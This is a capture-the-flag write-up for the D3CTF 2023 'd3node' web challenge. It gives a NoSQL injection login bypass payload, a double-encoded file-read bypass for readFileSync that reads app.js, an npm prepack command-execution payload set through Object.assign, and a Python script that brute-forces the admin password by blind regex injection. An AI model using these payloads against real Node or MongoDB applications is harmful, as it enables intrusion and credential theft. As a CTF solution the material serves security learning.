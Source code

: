 # d3ctf2023-web-d3node

Login page f12 found hint1

It is found that there is nosql injection and waf at the login, and players need to test it by themselves

```json
{"username": {"$regex": "admin"}, "password": {"$regex": "" }}
```

Log in and find hint2, hint2 hints the vulnerability of reading arbitrary files

```
/dashboardIndex/ShowExampleFile?filename=/proc/self/cmdline
```

When reading, if the filename parameter value has app, hacker will be echoed

Need to use the feature of readFileSync to bypass (there are many related articles on the Internet that analyze the specific principles)

Second url encoding may be required (the browser will automatically decode it once for you)

Read the app.js file

```
/dashboardIndex/ShowExampleFile?
filename[href]=aa&filename[origin]=aa&filename[protocol]=file:&filename[hostname]=&filename
[pathname]=/proc/self/cwd/%2561%2570%2570%252e%256a%2573
```

After reading app.js and other source codes, it is found that npm pack will be executed in /PackDependencies, and according to the official documentation of npm, you can set the prepack command in the scripts field, which will be executed before npm pack (you can use this to complete any command implement)

![](https://i.imgur.com/qU7SZuW.png)

You can set dependencies in the /SetDependencies route, using the override feature of Object.assign

```json
{
"name": "d3ctf2023",
"version": "1.0.0",
"dependencies": {
},
"scripts": {
"prepack": "/readflag >> /tmp/success.txt"
}
}
```

The above operations require admin privileges. The backend check logic is: the admin user name and the password corresponding to admin are required to write admin privileges in the current session

So you need to inject the admin password according to the nosql blind injection

```python
import requests
remoteHost = "localhost:8080"
burp0_url = f"http://{remoteHost}/user/LoginIndex"
dict_list = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-_0123456789"
password = ""
for i in range(50):
	for i in dict_list:
		burp0_json={"password": {"$regex": f"^{password + i}.*"}, "username":
			{"$regex": "admin"}}
		res = requests.post(burp0_url, json=burp0_json,
		allow_redirects=False)
		if res.status_code == 302:
			password += i
			print(password)
			break
```
admin/dob2xdriaqpytdyh6jo3

Then read the above success.txt in the /ShowExampleFile route
